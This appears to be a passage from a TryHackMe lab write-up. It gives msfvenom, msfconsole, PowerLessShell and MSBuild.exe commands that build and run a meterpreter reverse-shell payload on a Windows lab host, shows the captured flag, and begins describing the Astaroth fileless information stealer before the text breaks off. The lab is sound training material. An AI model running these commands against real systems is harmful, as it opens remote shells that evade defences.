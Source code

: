 We need to replicate these steps:


```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=IP LPORT=4444 -f psh-reflection > liv0ff.ps1
```

```
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost tun0;set lport 4444;exploit"
```

```
python2 PowerLessShell.py -type powershell -source liv0ff.ps1 -output liv0ff.csproj
```

After all this, we need to set up a python server and download the file manually, we can also do it with `scp`.

Once we got the file, we do:

```
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Downloads\liv0ff.csproj
```

If we set up the listener correctly, we get our shell:

![[Pasted image 20250522164100.png]]

Let's get our flag:

```
C:\Users\thm\Desktop>type flag.txt
THM{23005dc4369a0eef728aa39ff8cc3be2}
```

# Real-life Scenario

---

This task introduces a showcase of malware that used the techniques discussed in this room.

In 2017, The Windows Defender Advanced Threat Protection ([Windows Defender ATP](https://www.microsoft.com/security/blog/2018/11/15/whats-new-in-windows-defender-atp/)) Research Team discovered Fileless malware named **Astaroth**. A fileless malware means that the malware runs and is executed in the system without writing to disk. The malware performs all its functions from the victim device's memory.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5c549500924ec576f953d9fc/room-content/312a048b77af0ef89fab949cd9b753b4.png)



**Astaroth** is known as an **information stealer**, which takes sensitive information from victim users, such as account credentials, keystrokes, and other data, and sends it to the attacker. The malware relies on various advanced techniques such as anti-debugging, anti-virtualization, anti-emulation tricks, process hollowing, NTFS Alternate Data Streams (ADS), and Living off the land binaries to perform different functions. 

In the initial access stage, attackers rely on a spam campaign that contains malicious attachment files. The attached file is an LNK file shortcut that, once the victim has clicked it, will result in the following:
